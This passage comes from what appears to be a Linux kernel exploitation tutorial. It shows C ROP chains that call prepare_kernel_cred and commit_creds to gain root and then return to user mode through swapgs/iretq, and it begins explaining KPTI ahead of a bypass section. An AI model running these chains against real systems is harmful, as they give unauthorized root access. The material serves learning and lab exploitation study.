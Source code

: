Combine them together to create a ROP chain that will call `prepare_kernel_cred` and `commit_creds` functions, and then return to user mode using `iretq` instruction. The ROP chain will look like this:

```c
    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = 0;
    ROP[idx++] = prepare_kernel_cred;
    ROP[idx++] = pop_rcx; // Set rcx to 0 to avoid "rep movsq qword ptr [rdi], qword ptr [rsi]" in mov_rdi_rax
    ROP[idx++] = 0;
    ROP[idx++] = mov_rdi_rax;
    ROP[idx++] = commit_creds;
    ROP[idx++] = swapgs; // Change Kernel segment GS -> User segment GS
    ROP[idx++] = iretq;
    ROP[idx++] = user_rip;
    ROP[idx++] = user_cs;
    ROP[idx++] = user_rflags;
    ROP[idx++] = user_rsp;
    ROP[idx++] = user_ss;
```

Here is my full [exploit code](./kROP/exploit.c). However, you can make you ROP chain more short by passing `init_cred` to `commit_creds` instead of using `prepare_kernel_cred` (note that not all linux version build with `init_cred` symbol). So the ROP chain will look like this:

```c
    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = init_cred; // Pass init_cred to commit_creds
    ROP[idx++] = commit_creds;
    ROP[idx++] = swapgs; // Change Kernel segment GS -> User segment GS
    ROP[idx++] = iretq;
    ROP[idx++] = user_rip;
    ROP[idx++] = user_cs;
    ROP[idx++] = user_rflags;
    ROP[idx++] = user_rsp;
    ROP[idx++] = user_ss;
```

## Exploit: Bypass KPTI (with SMEP, SMAP and no ASLR)

Kernel page-table isolation (KPTI or PTI, previously called KAISER) is a Linux kernel feature that mitigates the Meltdown security vulnerability (affecting mainly Intel’s x86 CPUs) and improves kernel hardening against attempts to bypass kernel address space layout randomization (KASLR). It works by better isolating user space and kernel space memory.

KPTI fixes these leaks by separating user-space and kernel-space page tables entirely. One set of page tables includes both kernel-space and user-space addresses same as before, but it is only used when the system is running in kernel mode. The second set of page tables for use in user mode contains a copy of user-space and a minimal set of kernel-space mappings that provides the information needed to enter or exit system calls, interrupts and exceptions.
